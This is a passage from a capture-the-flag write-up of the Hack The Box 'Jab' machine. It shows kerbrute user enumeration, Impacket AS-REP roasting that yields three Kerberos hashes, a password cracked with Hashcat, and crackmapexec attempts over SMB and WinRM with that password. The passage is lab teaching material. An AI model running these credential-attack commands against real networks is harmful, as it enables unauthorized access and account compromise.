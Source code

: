 ```bash
kerbrute userenum -d JAB.HTB --dc 10.10.11.4 users_jabber.txt

GetNPUsers.py JAB.HTB/ -dc-ip 10.10.11.4 -no-pass -usersfile users_jabber.txt
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

<SNIP>
$krb5asrep$23$jmontgomery@JAB.HTB:82ac20f345a89bdd37a8b3c71e16de81$a8ffc1145e6ad780a4457665cd3cc41c4a834fbdf230da473aa5e9ac71f33164aa2483c5a1738769623a6d7da8b4a37c4e7343b66541393de737e25a5531e303515412d7c83cf51f84c618f644a3ae49aba58890dceda272b21fa2f11eaea54c470cfd2a6634c79aef2a251a4c4f5d5c6d9250815f5f73e4093743ad41dce1f467d40c294478727fb7cd8a4d14506e366b0de452c9b27aebf513b05da6665909f82d6501b5fed2eefefdbdec1949167f2f3d962bb22c8ab0b5e00295f1cc0994e0e0e414511c56b32889187652837d951cd6d10061ff21b26b6734f81b7038f010b1
$krb5asrep$23$lbradford@JAB.HTB:f6f16bd0744d399da85720c775bbba95$13d6f41b9734f5ac2d39f58e1b03c9c4fc267e0f2e69c4ad321bd3047153e48acd3173d72de6443b25a4e9c2832aef263d0de61afbc9090da09e0e574227b514cdb2cdf7af74ab8ee21f0fc9032950b5630b7d397340b86b90ed9cb906a82d0bb88f8af94e8a53d4169a973cc7ca309a2c5827f580252bfc72ae71a5233e8c7d3142b55b16a1c2e740853fc9b12b30de7bbb01dc94daf18c5c5e91c7cda72674c42722f1b8ac4997ca3b826ddab0440621bc29e1116b4a1a93e37e7ff6f911680115ebcf3f5fb462eb7af90fdad60b6c85c6f01dc2d54b80f52bbd6ed5f8f74a0d09
$krb5asrep$23$mlowe@JAB.HTB:b0df8e7e87f6f9c24c80c5ba42050cca$eacde3a312aacee6ccec460158d603ced69cd8132017e7f90d25a925d0f7c043fa4a3d091328608b5e1806c6f1fe8ce86f6f5de29e77a359723999b484578ee1ea2f09721dfabeaa1d4be1831f02896831783d434d41b57035e5573333431e4e5b7263f8a350eb0a80e0d22956bfc4bd4314a46f5e82a572eafa2a486e205530dade262881b2903b5db24a35ef8f7d1069681f43835412ef94cd99c4062d663e9bca37258648977aae960171a278b12efb7a1189c01933cab472843b4d3735f6f53ecb7c1c273f021d991043cef0f7415e9a0a5f00d1d6d87053ec404b0b8fb5baf4

```
 
 - Afterward, using `Hashcat`, he managed to crack them, uncovering the credentials for the user `jmontgomery`: `Midnight_121`.
 
 ![](/assets/images/HTB-Writeup-Jab/Pasted image 20240609203915.png)

- With these credentials and utilizing the `crackmapexec` tool, the pentester conducted a search for interesting shares on the SMB service and attempted access via the WinRM service, but without success.

```bash
crackmapexec smb 10.10.11.4 -u 'jmontgomery' -p Midnight_121 --shares
```

![](/assets/images/HTB-Writeup-Jab/Pasted image 20240613094217.png)

```bash
crackmapexec winrm 10.10.11.4 -u 'jmontgomery' -p Midnight_121
```

![](/assets/images/HTB-Writeup-Jab/Pasted image 20240613094202.png)

- However, when attempting to access the Jabber service with these credentials, the pentester discovered they now had access to a new room called `pentest2003`.

 ![](/assets/images/HTB-Writeup-Jab/Pasted image 20240609204529.png)
 ![](/assets/images/HTB-Writeup-Jab/Pasted image 20240609204611.png)
 ![](/assets/images/HTB-Writeup-Jab/Pasted image 20240609204642.png)
- Inside this new room, _pentest2003_, there's a conversation among a team of pentesters, presumably. It seems that the user `bdavis` managed to crack the hash derived from the Service Ticket belonging to the SPN `svc_openfire`.
